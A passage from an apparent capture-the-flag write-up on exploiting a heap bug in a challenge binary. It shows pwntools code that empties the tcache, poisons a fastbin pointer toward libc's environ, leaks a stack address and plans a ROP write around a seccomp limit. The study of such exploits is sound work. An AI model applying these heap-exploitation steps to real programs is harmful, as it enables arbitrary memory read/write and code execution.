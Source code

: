 to profit, since tcache takes priority, we'll just need to consume all the tcache and then proceed to overwrite the first fastbin's 8 bytes with the target/address you want to achieve read/write, in this case I want to gain arb read to environ to leak stack

```python
for i in range(7):
    alloc(i, 0x10, b'a\n')
alloc(7, 0x10, p64(mangle(heap+0x1b10, libc.sym['environ'])) + b'\n')
alloc(8, 0x10, b'a\n')
alloc(9, 0x10, b'a\n')
```

<figure><img src="../../.gitbook/assets/Screenshot 2024-10-11 184243.png" alt=""><figcaption></figcaption></figure>

now we can allocate one more chunk to gain access to it, however notice that the allocate function uses `fgets` to take input, this means we have to overwrite the contents of it possibly deleting the stack address, even a new line will make the it NULL terminated and `puts` will unable to print it.

to bypass this we can easily request malloc of size 0x0, this will make malloc default to return a chunk of size 0x20 but since the size passed to `fgets` is still 0x0, we are not going to input anything to it.

```python
alloc(10, 0x0, b'')

show(10)
stack = u64(io.recvline().strip().ljust(8, b'\x00'))
rip = stack - 0x150
```

next using the same technique we'll write ROP payload to the stack, however we can't do this within the main's stack frame, this is because before returning, the binary will call `sleep()` which is not allowed by the seccomp

```c
undefined8 main(void)
{
  // ... snippet
    case 6:
      puts("");
      printf("\x1b[1;33m");
      puts("[#] The game quits in 3 seconds.");
      puts("[#] ..1");
      sleep(1);
      puts("[#] ..2");
      sleep(1);
      puts("[#] ..3");
      sleep(1);
      printf("\x1b[0m");
      goto ret;
    // ... snippet
}


```
